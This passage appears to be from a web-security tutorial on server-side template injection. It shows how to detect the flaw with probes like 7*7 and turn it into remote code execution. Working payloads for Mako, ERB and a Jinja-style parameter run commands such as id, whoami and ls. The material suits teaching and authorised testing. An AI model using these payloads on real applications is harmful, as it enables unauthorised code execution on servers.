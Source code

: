 Reading documentation is a good starting point. For example, once you know that Mako is being used, achieving remote code execution could be as simple as:

```python
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
```

In unsandboxed environments, achieving RCE is similarly as simple in many templating engines.

For example, if you try and view a product that is out of stock, a message may reflect stating it's out of stock via a GET request. If a template engine is in use, reading the docs may reveal the syntax below evaluates an expression and renders the result on page:

```ruby
<%= someExpression %>
```

Alternatively, fuzzing using the template injection payloads in Intruder may reveal a payload that gets evaluated such as:

```ruby
<%= 7*7 %>
```

If evaluated, check the page for `49`. If SSTI is confirmed, try additional payloads to achieve RCE such as the following:

```ruby
<%= system("whoami") %>
<%= system("ls") %>
```
# Basic SSTI in Code Context

In terms of code context, check all functionality of the application. Try posting comments on a blog for example. There may be an option to select what username the site uses for you such as first name or nick name. Check the request for an indication of a template such as `user.name`:

```ruby
blog-post-author-display=user.nickname&csrf=jE8TKKWWKg34LwuofXdJDI9EZotYTrEA
```

If fuzzing does not work such as in the comments, try triggering an error by changing the attribute to something else such as `user.random` and analyse the response. It may reveal the templating engine:

```ruby
blog-post-author-display=user.name}}{{7*7}}&csrf=jE8TKKWWKg34LwuofXdJDI9EZotYTrEA
blog-post-author-display=user.random&csrf=jE8TKKWWKg34LwuofXdJDI9EZotYTrEA
```

If so, try closing the object by prepending `}}` and adding a payload such as:

```ruby
blog-post-author-display=}}{% import os %}{{os.system('whoami')}}&csrf=jE8TKKWWKg34LwuofXdJDI9EZotYTrEA
```
